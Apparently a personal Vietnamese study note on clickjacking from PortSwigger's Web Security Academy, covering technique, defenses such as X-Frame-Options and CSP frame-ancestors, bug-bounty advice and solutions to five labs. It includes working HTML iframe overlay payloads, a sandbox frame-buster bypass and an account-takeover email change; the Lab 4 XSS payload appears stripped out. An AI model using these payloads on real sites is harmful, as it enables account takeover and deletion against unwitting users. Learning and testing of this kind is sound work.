



# 0 - Tổng Hợp Kiến Thức Clickjacking (PortSwigger Web Security Academy)



# 1.Mindmap Mình Tự Đúc Kết

```text
Clickjacking (UI Redressing) - Góc nhìn của mình
│
├── 1. Bản chất cốt lõi
│   ├── Khái niệm: Lừa thị giác (UI Redressing), mượn tay nạn nhân click vào trang thật bị tàng hình
│   ├── Khác biệt lớn nhất với CSRF:
│   │   ├── CSRF: Ép browser tự bắn request ngầm mà nạn nhân không hay biết
│   │   └── Clickjacking: Nạn nhân tự tay click thật vào trang thật
│   └── Vì sao CSRF Token hoàn toàn "bó tay":
│       └── Trang web tải hợp lệ từ chính server đích -> Form tự sinh ra CSRF Token xịn 100%!
│
├── 2. Kỹ thuật dựng đòn tấn công (CSS Layering)
│   ├── Dùng CSS xếp chồng 2 lớp: Decoy UI (dưới) và Target iframe (trên)
│   ├── Các thuộc tính sống còn: position, z-index, opacity (0.0001)
│   └── Tool cưng: Burp Suite Clickbandit (sinh PoC trong 3 giây, khỏi cần đo pixel bằng tay)
│
├── 3. Các chiêu thức khai thác nâng cao
│   ├── Basic Clickjacking: 1 click xóa nick, đổi trạng thái
│   ├── Prefilled Form qua URL: Nhồi sẵn dữ liệu qua GET param (?email=hacker@evil.com) -> Chiếm tài khoản (ATO)
│   ├── Frame Buster Bypass: Dùng HTML5 iframe sandbox="allow-forms" để vô hiệu hóa script chống frame
│   ├── Carrier Attack với DOM XSS: Dùng Clickjacking làm bệ phóng kích hoạt sink DOM XSS
│   └── Multistep Clickjacking: Xử lý các popup/modal xác nhận "Bạn có chắc chắn không?" bằng chuỗi đa click
│
├── 4. Cơ chế phòng thủ & Góc nhìn phản biện
│   ├── Frame busting JS: Vứt đi, bypass bằng sandbox quá dễ
│   ├── X-Frame-Options (XFO): DENY, SAMEORIGIN (Cổ điển, ALLOW-FROM đã bị phế truất)
│   ├── Content-Security-Policy (CSP): frame-ancestors 'none'/'self' -> Chuẩn mực hiện đại nhất
│   └── Cạm bẫy Cookie SameSite: Nếu session cookie đặt Lax/Strict thì iframe cross-site sẽ tịt ngòi!
│
├── 5. Kinh nghiệm xương máu khi đi săn Bug Bounty / Pentest
│   ├── Thiếu X-Frame-Options KHÔNG PHẢI LÀ LỖI nếu không có state-changing action (Report là ăn N/A ngay)
│   └── 3 điều kiện mình luôn kiểm tra trước khi report:
│       ├── 1. Trang cho phép frame (không có XFO / frame-ancestors chặn)
│       ├── 2. Có hành động nhạy cảm (đổi mail, pass, xóa tài khoản, chuyển tiền, cấp quyền)
│       └── 3. Session cookie sống sót qua cross-site context
│
└── 6. Nhật ký giải 5 bài Labs PortSwigger
    ├── Lab 1: Basic clickjacking with CSRF token protection
    ├── Lab 2: Clickjacking with form input data prefilled from a URL parameter
    ├── Lab 3: Clickjacking with a frame buster script
    ├── Lab 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS
    └── Lab 5: Multistep clickjacking
```

# 2. Clickjacking Là Gì? Cách Mình Hiểu Về Bản Chất

Trước đây, khi mới tiếp cận bảo mật web, mình hay bị nhầm lẫn giữa **Clickjacking** và **CSRF**. Nhưng khi đào sâu vào tài liệu của PortSwigger thì mình vỡ lẽ ra bản chất hoàn toàn khác:

* **Clickjacking (UI Redressing - Tráo đổi giao diện):** Mình không cần viết code gửi trộm request gì cả. Việc của mình là tạo ra một trang mồi nhử (decoy site) cực kỳ hấp dẫn (ví dụ: *"Bấm vào đây để nhận 1.000$"*), ==🟡sau đó mình nhúng trang web mục tiêu== vào một thẻ `<iframe>`, căn chỉnh sao cho nút hành động nhạy cảm (như *"Xác nhận chuyển tiền"* hoặc *"Xóa tài khoản"*) nằm đè **chính xác** lên nút nhận thưởng.
* Cuối cùng, mình chỉ cần chỉnh độ mờ `opacity: 0.0001` để cái iframe đó tàng hình trước mắt người dùng. Nạn nhân nhìn thấy nút nhận thưởng thì hớn hở click vào, nhưng con trỏ chuột thực chất lại click trúng nút của trang web thật bên dưới!



---

## 2.1. Phát hiện quan trọng nhất: Vì sao CSRF Token "bó tay" trước Clickjacking?

Đây là câu hỏi phỏng vấn và cũng là điểm mấu chốt mà mình tâm đắc nhất:
* Trong tấn công CSRF thông thường, trang web của mình tự tạo ra form giả và ép trình duyệt gửi đi. Nếu server bật kiểm tra CSRF Token ngẫu nhiên, request của mình sẽ bị văng ra ngay vì mình không thể đọc trộm được token của nạn nhân (do vướng Same-Origin Policy).
* Nhưng với **Clickjacking**, trang web được load hợp pháp từ chính domain của nạn nhân bên trong thẻ `<iframe>`! Mọi dữ liệu phiên (Session Cookie), cấu trúc HTML và cả **CSRF Token xịn** đều được server cấp phát một cách hoàn toàn tự nhiên.
* Khi nạn nhân tự tay click vào nút submit trong iframe, trình duyệt sẽ gom đủ cả Cookie phiên lẫn CSRF Token hợp lệ gửi về server. Server thấy token đúng, cookie đúng nên lập tức thực thi hành động!

# 3. Kỹ Thuật Dựng Đòn Tấn Công: Phép Màu Của CSS

Để làm được trò này, mình chỉ cần vận dụng một vài thuộc tính CSS quen thuộc:
1. `position: absolute / relative`: Giúp mình đặt tọa độ các phần tử chồng khít lên nhau từng pixel.
2. `z-index`: ==🟡Quy định thứ tự lớp==. Mình luôn đặt `z-index` của iframe cao hơn lớp mồi (`z-index: 2` so với `z-index: 1`) để nó nằm đè lên trên và hứng trọn cú click chuột.
3. `opacity`: Mình chỉnh về giá trị cực nhỏ như `0.0001` (hoặc `0`). Mình rút ra kinh nghiệm là không nên để `0` tuyệt đối vì một số cơ chế bảo vệ của browser có thể ngửi thấy mùi bất thường, ==🟡để `0.0001` thì vừa tàng hình với mắt người, vừa qua mặt được kiểm tra.==

### Khung PoC chuẩn mà mình hay dùng:
```html
<head>
    <style>
        #wrapper {
            position: relative;
            width: 500px;
            height: 500px;
        }
        #decoy {
            position: absolute;
            top: 300px;
            left: 60px;
            z-index: 1;
            font-size: 20px;
            padding: 10px 20px;
        }
        #target_iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 700px;
            height: 600px;
            opacity: 0.0001; /* Tàng hình hoàn toàn */
            z-index: 2;      /* Đè lên trên để nhận click */
        }
    </style>
</head>
<body>
    <div id="wrapper">
        <button id="decoy">Bấm vào đây để nhận thưởng!</button>
        <iframe id="target_iframe" src="https://vulnerable-website.com/my-account"></iframe>
    </div>
</body>
```

> [!TIP] Mẹo dùng Burp Clickbandit của mình
> Ngồi đo pixel thủ công (`top: 345px; left: 120px;`) cực kỳ mỏi mắt. Khi dùng **Burp Suite Professional**, mình chỉ cần vào menu `Burp -> Burp Clickbandit`. 
> Nó cho mình một đoạn bookmarklet JS, mình mở trang target trên trình duyệt rồi click vào nút cần khai thác, Clickbandit sẽ tự động tính toán tọa độ và nhả ra nguyên file PoC HTML hoàn chỉnh chỉ trong 3 giây. Cực kỳ tiện khi đi thi hoặc làm pentest!


# 4. Các Biến Thể Khai Thác Nâng Cao Mà Mình Học Được

### 4.1. Điền sẵn dữ liệu qua URL (Prefilled Form Input)
Mình nhận ra không phải form nào cũng chỉ có mỗi một nút bấm. Có những form yêu cầu phải nhập dữ liệu trước khi bấm nút (như form đổi email). 
* Nếu trang web cho phép nạp sẵn giá trị qua tham số GET:
  ```text
  https://target.com/my-account?email=hacker@evil.com
  ```
* Thì mình chỉ cần nhét cái URL này vào `src` của iframe. Ô input email sẽ tự động có sẵn địa chỉ của mình. Nạn nhân chỉ cần click duy nhất một phát vào nút "Update email" bị ẩn là tài khoản của họ rơi ngay vào tay mình!


### 4.2. Chiêu Vượt Qua Frame Buster Bằng HTML5 `sandbox` (Rất hay!)
Nhiều dev cẩn thận chèn thêm đoạn script JavaScript vào trang web để chống bị nhúng iframe:
```javascript
// Nếu cửa sổ hiện tại không phải là cửa sổ cao nhất -> Tự thoát frame
if (top != self) {
    top.location = self.location;
}
```
Ban đầu mình nghĩ gặp script này là bó tay. Nhưng PortSwigger đã chỉ cho mình một chiêu cực hiểm: ==🟡dùng thuộc tính `sandbox` của HTML5 trên thẻ `<iframe>`!==

```html
<iframe sandbox="allow-forms" src="https://target.com/my-account?email=hacker@evil.com"></iframe>
```
* Khi mình chỉ bật `sandbox="allow-forms"` mà **không** bật `allow-top-navigation`, trình duyệt sẽ cấm tiệt iframe can thiệp vào cửa sổ cha (`top.location`). Script chống frame sẽ bị văng lỗi bảo mật ngay lập tức và đứng hình!
* Trong khi đó, ==🟡`allow-forms` vẫn cho phép form được submit khi nạn nhân click==. Thế là script chống frame bị phế võ công hoàn toàn!

### 4.3. Biến Clickjacking Thành Bệ Phóng (Carrier) Cho DOM XSS
Mình thấy nhiều lỗi DOM XSS khá "nửa mùa" vì bắt buộc nạn nhân phải tự click vào một element nào đó trên trang thì payload mới nổ. Nạn nhân bình thường thấy link lạ đời nào chịu bấm?
* Giải pháp của mình: Kết hợp Clickjacking làm vật trung gian (carrier).
* Mình nhồi payload DOM XSS vào URL:
  ```text
  https://target.com/feedback?name=#feedbackResult
  ```
* Sau đó mình bọc vào iframe tàng hình, căn nút submit đè lên một nút chơi game. Nạn nhân bấm chơi game nhưng thực chất là bấm submit form feedback -> DOM XSS được kích hoạt ngon lành!

> [!NOTE]
> dom xss với payload là một cái iframe khiễn dễ bị click jacking

### 4.4. Đòn Tấn Công Đa Bước (Multistep Clickjacking)
Khi gặp các chức năng quan trọng (như xóa tài khoản), hệ thống thường bật thêm một hộp thoại popup hỏi lại: *"Bạn có chắc chắn muốn xóa không? [Có] [Hủy]"*.
* Để giải quyết bài toán này, mình không chỉ tạo 1 nút mồi mà tạo ra một chuỗi nhiều nút mồi (ví dụ trò chơi đập chuột hoặc bấm 2 bước liên tiếp).
* **Click 1:** Căn trúng nút "Delete account".
* **Click 2:** Căn trúng nút "Yes" trên popup xác nhận.
* Nạn nhân cứ ngỡ đang chơi game bấm nút theo nhịp, nhưng thực ra đã tự tay xác nhận xóa tài khoản của chính mình.

# 5. Phân Tích Phòng Thủ & Những Cạm Bẫy Mình Rút Ra



Qua tìm hiểu, mình tổng kết lại các giải pháp phòng thủ như sau:

1. **Frame busting script (JS):** Đừng bao giờ dùng! Mình đã chứng minh ở trên là chỉ cần thuộc tính `sandbox="allow-forms"` là bypass trong một nốt nhạc.
2. **Header `X-Frame-Options` (XFO):**
   - `DENY`: Cấm tuyệt đối mọi nơi nhúng vào frame (kể cả chính nó).
   - `SAMEORIGIN`: Chỉ cho phép chính domain đó nhúng.
   - `ALLOW-FROM`: Đã lỗi thời, Chrome và Safari hiện đại bỏ qua luôn nên không nên dùng.
3. **CSP `frame-ancestors` (Chân ái hiện đại):**
   - `Content-Security-Policy: frame-ancestors 'none';` (Chuẩn tương đương DENY).
   - `Content-Security-Policy: frame-ancestors 'self';` (Chuẩn tương đương SAMEORIGIN).
   - `Content-Security-Policy: frame-ancestors 'self' https://partner.com;` (Linh hoạt, cho phép whitelist nhiều domain tin cậy).

   > Nếu server gửi cả XFO và CSP `frame-ancestors`, trình duyệt hiện đại sẽ ưu tiên CSP `frame-ancestors`.

### Bài học về Cookie `SameSite`:
Đây là điểm mình suýt vấp ngã khi đi săn bug thực tế. 
* Hiện nay các trình duyệt mặc định áp dụng `SameSite=Lax` cho cookie nếu dev không cấu hình.
* Khi trang mục tiêu bị mình nhúng vào iframe trên một domain lạ (`https://evil.com`), đây là ngữ cảnh **cross-site**.
* Nếu cookie session của người dùng là `SameSite=Lax` hoặc `Strict`, trình duyệt **sẽ không chịu gửi cookie phiên kèm theo request POST bên trong iframe**!
* Kết quả là nạn nhân bấm nút nhưng server nhận request không có cookie đăng nhập -> Hành động thất bại. Muốn ăn được Clickjacking thì cookie session phải có cờ `SameSite=None` hoặc hành động đó không đòi hỏi cookie xác thực.


# 6. Kinh Nghiệm Sống Còn Khi Mình Đi Săn Bug Bounty / Pentest

Trước đây, khi mới dùng công cụ quét tự động, cứ thấy kết quả báo *"Missing X-Frame-Options header"* trên một trang nào đó là mình hí hửng copy paste vào form report. Kết quả: **Bị triage đóng N/A hoặc Informational thẳng tay!**

Từ đó, mình tự đặt ra nguyên tắc 3 bước kiểm tra nghiêm ngặt trước khi report:
1. **Kiểm tra Header:**
   ```bash
   curl -sI https://target.com/settings | grep -iE 'x-frame-options|frame-ancestors'
   ```
   Nếu có `DENY`, `SAMEORIGIN` hoặc `frame-ancestors 'none'/'self'` thì dừng ngay, đừng cố.
2. **Đánh giá Giá trị Hành động (Impact First):**
   Trang chủ, trang tin tức, trang blog tĩnh không có nút thao tác gì quan trọng thì thiếu header cũng **không bao giờ được tính là lỗ hổng**. Mình chỉ tập trung săn trên các trang:
   - Đổi Email / Password / Số điện thoại.
   - Tắt tính năng xác thực 2 bước (2FA) / Xóa tài khoản.
   - Nút "Authorize" cấp quyền trong luồng đăng nhập OAuth / Social login.
   - Nút thanh toán tiền, checkout giỏ hàng.
   - Các hành động của Admin (phân quyền, xóa thành viên).
3. **Luôn dựng PoC thực tế:**
   Mình luôn tự dựng 1 file HTML, bật môi trường test với 2 tài khoản, bấm thử xem dữ liệu tài khoản nạn nhân có thực sự bị thay đổi hay không. Có video hoặc ảnh chụp PoC rõ ràng thì report mới được trả tiền!


# 7. Nhật Ký Giải 5 Bài Labs Của PortSwigger (Code PoC Thực Tế)

Dưới đây là ghi chép chi tiết cách mình đã vượt qua từng bài lab trên PortSwigger Academy:

### Lab 1: Basic clickjacking with CSRF token protection
* **Mục tiêu:** Lừa nạn nhân (`wiener:peter`) bấm nút xóa tài khoản (`Delete account`) dù trang có CSRF token.
* **Cách mình làm:** Tạo một thẻ `div` chứa dòng chữ nhận thưởng, nhúng iframe `/my-account` lên trên, chỉnh `opacity: 0.0001` rồi căn tọa độ nút xóa tài khoản đè lên dòng chữ.
* **Payload mình submit lên Exploit Server:**
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.0001; /* Để 0.4 khi căn chỉnh, xong sửa về 0.0001 */
        z-index: 2;
    }
    div {
        position: absolute;
        top: 500px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me to win a prize!</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

---

### Lab 2: Clickjacking with form input data prefilled from a URL parameter
* **Mục tiêu:** Đổi email của nạn nhân thành email của mình thông qua form đổi email có nhận param GET `?email=...`.
* **Cách mình làm:** Mình nhét luôn email mới vào query string trong `src` của iframe. Nạn nhân chỉ cần click đúng một phát vào nút "Update email" là xong.
* **Payload của mình:**
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 450px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click to claim bonus!</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

---

### Lab 3: Clickjacking with a frame buster script
* **Mục tiêu:** Trang web có script Frame Buster ngăn cản việc nhúng frame. Phải bypass script này để đổi email của nạn nhân.
* **Cách mình làm:** Mình thêm thuộc tính `sandbox="allow-forms"` vào thẻ `<iframe>`. Nhờ vậy, form vẫn submit được nhưng script frame buster bị cấm điều hướng cửa sổ cha, đòn tấn công vẫn diễn ra trót lọt!
* **Payload của mình:**
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 450px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click to test your luck!</div>
<!-- Thần chú sandbox="allow-forms" giúp mình hạ gục frame buster -->
<iframe sandbox="allow-forms" src="https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

---

### Lab 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS
* **Mục tiêu:** Form `/feedback` bị dính DOM XSS qua tham số URL nhưng bắt buộc phải click nút gửi. Mình dùng Clickjacking để lừa nạn nhân kích hoạt hàm `print()`.
* **Cách mình làm:** Mình đưa payload `` vào query string của URL trang feedback, sau đó căn nút "Submit feedback" đè lên nút xem ảnh.
* **Payload của mình:**
```html
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 800px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 610px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click here to see magic!</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

---

### Lab 5: Multistep clickjacking
* **Mục tiêu:** Bấm xóa tài khoản thì trang web bật ra modal hỏi lại `"Are you sure?"`. Mình phải lừa nạn nhân click 2 lần liên tiếp.
* **Cách mình làm:** Mình tạo 2 thẻ `div` mồi khác nhau, căn tọa độ sao cho nút 1 trùng với nút `"Delete account"` và nút 2 trùng với nút `"Yes"` trên popup xác nhận.
* **Payload của mình:**
```html
<style>
    iframe {
        position: relative;
        width: 600px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    .firstClick {
        position: absolute;
        top: 500px;
        left: 60px;
        z-index: 1;
    }
    .secondClick {
        position: absolute;
        top: 450px;
        left: 210px;
        z-index: 1;
    }
</style>
<div class="firstClick"><button>Bước 1: Nhận thưởng</button></div>
<div class="secondClick"><button>Bước 2: Xác nhận quà</button></div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

---

# 8. Bảng Thuật Ngữ Nhanh Cho Mình Khi Cần Tra Cứu

| Thuật ngữ | Cách mình ghi nhớ |
| :--- | :--- |
| **UI Redressing** | Bản chất học thuật của Clickjacking: "Khoác áo mới cho giao diện" để lừa bấm. |
| **Decoy Site** | Trang bẫy do mình dựng lên (chứa game, quà tặng hoặc trò vui nhộn để dụ click). |
| **Target Site** | Trang mục tiêu mà nạn nhân đang có phiên đăng nhập hợp lệ (nhúng ngầm bằng iframe). |
| **Frame Buster** | Đoạn code JavaScript client-side kiểm tra `top != self` để ngăn bị nhúng frame (rất dễ bị mình bypass bằng sandbox). |
| **HTML5 `sandbox`** | Thuộc tính cô lập iframe; mình tận dụng `sandbox="allow-forms"` để vô hiệu hóa Frame Buster mà form vẫn chạy tốt. |
| **`X-Frame-Options`** | Header chống nhúng frame thế hệ cũ (`DENY`, `SAMEORIGIN`). |
| **`frame-ancestors`** | Directive trong CSP, chuẩn phòng thủ hiện đại và toàn diện nhất ngày nay. |
| **Burp Clickbandit** | Công cụ cực hữu ích trong Burp Pro giúp mình dựng PoC tự động trong 3 giây. |

---
*Ghi chép đã được lưu vào file [0-Clickjacking.md](file:///mnt/DATA_D/DESKTOP/DATA_DESKTOP/0_Obsidian%20notebook/red/portswigger/clickjacking/0-Clickjacking.md) trong thư mục Obsidian của mình.*
*Ảnh infographic gốc đã được lưu tại [images/clickjacking-infographic.svg](file:///mnt/DATA_D/DESKTOP/DATA_DESKTOP/0_Obsidian%20notebook/red/portswigger/clickjacking/images/clickjacking-infographic.svg).*
*Mọi lab khi làm thực tế chỉ cần thay `YOUR-LAB-ID` bằng mã instance lab cụ thể là nổ ngay!*
